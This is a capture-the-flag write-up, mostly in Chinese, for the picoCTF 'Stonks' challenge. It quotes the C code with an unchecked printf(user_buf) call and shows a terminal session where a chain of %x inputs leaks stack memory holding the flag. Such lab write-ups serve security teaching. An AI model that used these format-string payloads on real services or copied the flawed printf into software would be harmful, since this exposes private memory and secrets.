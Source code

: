 ### 💁Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/f9d545499faf6f436853685ad21dcb33/vuln.c) `nc mercury.picoctf.net 33411`



### 🙆Solution

唉這個好難哇🥺🥺　這個題目叫偶們連到 `mercury.picoctf.net 33411` 它還有附這個程式　`vuln.c` ，要從裡面找到有問題的地方🤕　偶太呆只好去找別人的Write🆙，偶有看惹 [Kasimir123](https://github.com/Kasimir123/CTFWriteUps/tree/main/2021-03-picoCTF/stonks)　大大和 [Dvd848](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Stonks.md) 大佬的，偶的程式是用他們的改的🤢　

`vuln.c` 的問題在這裡：
```c=
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

在 `buy_stonks` 函式裡的 `printf` 少惹格式化字符串的參數，這個叫做 `Uncontrolled format string` 格式化字串漏洞的樣子，如果偶們使用 `%x` 或 `%X$p` (`X` 為任意正整數)，可以把堆疊上的資料打印出來。

```c=
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
// ... 中間省略 ...
fgets(api_buf, FLAG_BUFFER, f);
```

程式前面有把🏁 [api檔案] 讀到 `api_buf` 這個字串裡面，所以可以打出來😻 偶們先在 `terminal` 試試看🧑‍💻

```
> nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x 
Buying stonks with token:
919a3d0-804b000-80489c3-f7f02d80-ffffffff-1-9198160-f7f10110-f7f02dc7-0-9199180-1-919a3b0-919a3d0-6f636970-7b465443-306c5f49-345f7435
Portfolio as of Sun Jun 20 10:23:09 UTC 2021


1 shares of FZH
2 shares of P
2 shares of E
73 shares of ZX
41 shares of PNBU
1707 shares of TXUL
77 shares of YMA
Goodbye!
```
